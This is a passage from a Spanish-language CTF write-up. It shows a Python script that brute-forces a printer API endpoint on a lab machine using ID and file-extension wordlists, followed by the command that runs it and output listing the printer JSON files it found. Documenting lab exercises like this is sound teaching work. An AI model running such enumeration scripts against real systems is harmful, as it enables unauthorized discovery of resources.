 Ahora vamos a crear otro script en el que pruebe con dichos diccionarios la `API` de la impresora a ver que vemos.

> printer.py

```python
# brute_ctf.py
import requests

URL_BASE = "http://<IP>/api/printers/"   # endpoint del CTF
TIMEOUT = 5  # segundos de timeout

def cargar_lista(nombre_archivo):
    """Lee un archivo de texto y devuelve una lista de líneas sin saltos."""
    with open(nombre_archivo, "r") as f:
        return [line.strip() for line in f if line.strip()]

def fuerza_bruta(ids_file="ids.txt", exts_file="exts.txt", output_file="resultados.txt"):
    ids = cargar_lista(ids_file)
    exts = cargar_lista(exts_file)

    with open(output_file, "w") as salida:
        for id_val in ids:
            for ext in exts:
                printer_name = f"printer{id_val}.{ext}"
                url = URL_BASE + printer_name
                try:
                    r = requests.get(url, timeout=TIMEOUT)
                    if r.status_code == 200:
                        print(f"[+] Posible válido: {printer_name} --> {url}")
                        salida.write(f"{printer_name} --> {url}\n")
                except requests.RequestException:
                    # Ignora errores de conexión o timeouts
                    pass

    print(f"\n[✓] Fuerza bruta finalizada. Resultados guardados en '{output_file}'")

if __name__ == "__main__":
    fuerza_bruta()
```

Ahora lo ejecutaremos de esta forma:

```shell
python3 printer.py 
```

Info:

```
[+] Posible válido: printer1.json --> http://192.168.5.86/api/printers/printer1.json
[+] Posible válido: printer2.json --> http://192.168.5.86/api/printers/printer2.json
[+] Posible válido: printer3.json --> http://192.168.5.86/api/printers/printer3.json
[+] Posible válido: printer4.json --> http://192.168.5.86/api/printers/printer4.json
[+] Posible válido: printer5.json --> http://192.168.5.86/api/printers/printer5.json
[+] Posible válido: printer1599.json --> http://192.168.5.86/api/printers/printer1599.json
```
